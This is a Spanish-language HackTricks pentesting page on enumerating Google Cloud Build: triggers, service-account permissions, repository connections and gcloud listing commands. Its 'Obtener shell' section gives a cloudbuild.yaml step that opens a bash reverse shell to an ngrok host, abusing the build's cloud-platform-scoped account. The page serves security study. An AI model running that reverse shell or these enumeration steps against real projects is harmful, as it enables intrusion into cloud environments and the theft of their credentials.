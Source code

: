 # GCP - Enumeración de Cloud Build

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de HackTricks en AWS)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

Google Cloud Build es una plataforma de CI/CD gestionada que **automatiza la construcción de software** y los procesos de lanzamiento, integrándose con **repositorios de código fuente** y admitiendo una amplia gama de lenguajes de programación. Permite a los desarrolladores **construir, probar e implementar código automáticamente** al mismo tiempo que ofrece flexibilidad para personalizar los pasos de construcción y flujos de trabajo.

Cada Desencadenador de Cloud Build está **relacionado con un Repositorio de Cloud o conectado directamente con un repositorio externo** (Github, Bitbucket y Gitlab).

{% hint style="success" %}
No pude ver ninguna forma de robar el token de Github/Bitbucket desde aquí o desde Repositorios de Cloud porque cuando se descarga el repositorio se accede a través de una URL de [https://source.cloud.google.com/](https://source.cloud.google.com/) y Github no es accedido por el cliente.
{% endhint %}

### Eventos

Cloud Build puede ser desencadenado si:

* **Se hace push a una rama**: Especificar la rama
* **Se hace push a una nueva etiqueta**: Especificar la etiqueta
* **Pull request**: Especificar la rama que recibe el PR
* **Invocación manual**
* **Mensaje Pub/Sub**: Especificar el tema
* **Evento de Webhook**: Expondrá una URL HTTPS y la solicitud debe ser autenticada con un secreto

### Ejecución

Hay 3 opciones:

* Un yaml/json **especificando los comandos** a ejecutar. Por lo general: `/cloudbuild.yaml`
* Solo uno que puede ser especificado "en línea" en la consola web y en la CLI
* Opción más común
* Relevante para el acceso no autenticado
* Un **Dockerfile** para construir
* Un **Buildpack** para construir

### Permisos de SA

La **Cuenta de Servicio tiene el alcance `cloud-platform`**, por lo que puede **utilizar todos los privilegios**. Si **no se especifica una SA** (como al hacer submit) se utilizará la **SA predeterminada** `<número-proyecto>@cloudbuild.gserviceaccount.com`.

Por defecto no se otorgan permisos, pero es bastante fácil darle algunos:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Aprobaciones

Es posible configurar un Cloud Build para **requerir aprobaciones para las ejecuciones de construcción** (deshabilitado de forma predeterminada).

### Conexiones y Repositorios

Las conexiones se pueden crear en:

* **GitHub:** Mostrará un aviso de OAuth pidiendo permisos para **obtener un token de Github** que se almacenará dentro del **Gestor de Secretos.**
* **GitHub Enterprise:** Pedirá instalar una **GithubApp**. Se creará y almacenará un **token de autenticación** de su host de GitHub Enterprise en este proyecto como un secreto del **Gestor de Secretos.**
* **GitLab / Enterprise:** Debes **proporcionar el token de acceso a la API y el token de acceso a la API de Lectura** que se almacenarán en el **Gestor de Secretos.**

Una vez que se genera una conexión, puedes usarla para **vincular repositorios a los que la cuenta de Github tiene acceso**.

Esta opción está disponible a través del botón:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Ten en cuenta que los repositorios conectados con este método están **disponibles solo en Triggers que utilizan la 2ª generación.**
{% endhint %}

### Conectar un Repositorio

Esto no es lo mismo que una **`conexión`**. Esto permite **diferentes** formas de obtener **acceso a un repositorio de Github o Bitbucket** pero **no genera un objeto de conexión, pero sí genera un objeto de repositorio (de 1ª generación).**

Esta opción está disponible a través del botón:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Almacenamiento

A veces Cloud Build **generará un nuevo almacenamiento para almacenar los archivos del desencadenador**. Esto sucede, por ejemplo, en el ejemplo que ofrece GCP con:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket de almacenamiento llamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) se crea para almacenar un archivo `.tgz` con los archivos a utilizar.

### Obtener shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Instalar gcloud dentro de Cloud Build:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumeración

Podrías encontrar **información sensible en las configuraciones de compilación y registros**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Escalada de Privilegios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acceso no Autenticado

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post Explotación

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}
